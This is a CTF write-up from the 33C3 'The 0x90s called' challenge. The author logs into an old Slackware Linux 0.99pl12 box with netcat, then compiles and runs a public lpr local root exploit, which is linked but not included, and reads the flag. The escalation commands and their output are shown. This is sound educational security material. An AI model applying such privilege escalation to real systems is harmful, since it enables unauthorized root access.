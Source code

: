 ```yaml
---
title: '[33C3 CTF] The 0x90s called Writeup'
author: Megabeets
type: post
date: 2016-12-29T20:00:28+00:00
url: /33c3-ctf-0x90s-called-writeup/
sharing_disabled:
  - 1
categories:
  - 33C3 CTF
  - Writeups
tags:
  - 33C3
  - CTF
  - PWN
  - Writeups

---
```

### **Description:**

> **The 0x90s called &#8211; PWN**
> 
> The 0x90s called, they want their vulns back!  
> [Pwn this and get the flag.][1] Who would&#8217;ve thought?  
> If you want to try it locally first, [check this out][2].

This challenge was pretty simple and obvious. We are given with a website that is requesting a &#8216;proof of work&#8217; from us to reduce the load on their infrastructure. We need to press start and then we get a port to which we can connect using `netcat`, username and password. We connect to the server and search for the flag.

<pre class="lang:sh mark:3,11,14 decode:true">Megabeets:~# nc 78.46.224.70 2323

Welcome to Linux 0.99pl12.

slack login: challenge
challenge
Password:challenge

Linux 0.99pl12. (Posix).
No mail.
slack:~$ id
uid=405(challenge) gid=1(other)
slack:~$ ls -la / | grep flag
-r--------   1 root     root           36 Dec 27  1916 flag.txt
slack:~$</pre>

Look at the highlighted rows. We can see that we are in _Slack Linux 0.99pl12_ machine, that _flag.txt_ is on the root folder and that only _root_ can read it. Before trying anything special or complicated, lets search online for known exploit to this version.

[<img src="../uploads/90s_called_1.png" />][3]Oh, this was easy! There&#8217;s a known exploit available on _Github_.



Lets run it to see if it works, and if so read the flag.

<pre class="lang:sh decode:true">slack:~$ gcc exploit.c -o exploit
slack:~$ id
uid=405(challenge) gid=1(other)
slack:~$ ./exploit
[ Slackware linux 1.01 /usr/bin/lpr local root exploit
# id
uid=405(challenge) gid=1(other) euid=0(root) egid=18(lp)
# cat /flag.txt
33C3_Th3_0x90s_w3r3_pre3tty_4w3s0m3</pre>

&nbsp;

It worked just fine (thanks [prdelka][4] for the exploit)! We got _root_ permissions and were able to read the flag.  
**Flag**: _33C3\_Th3\_0x90s\_w3r3\_pre3tty_4w3s0m3_

I’ll be happy to read in the comments how the challenge was for you.

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="../uploads/megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>

 [1]: http://78.46.224.70:8080/
 [2]: https://33c3ctf.ccc.ac/uploads/qemu-xmas-slackware.tar.xz
 [3]: http://www.megabeets.net/uploads/90s_called_1.png
 [4]: https://github.com/HackerFantastic/Public/blob/master/exploits/prdelka-vs-GNU-lpr.c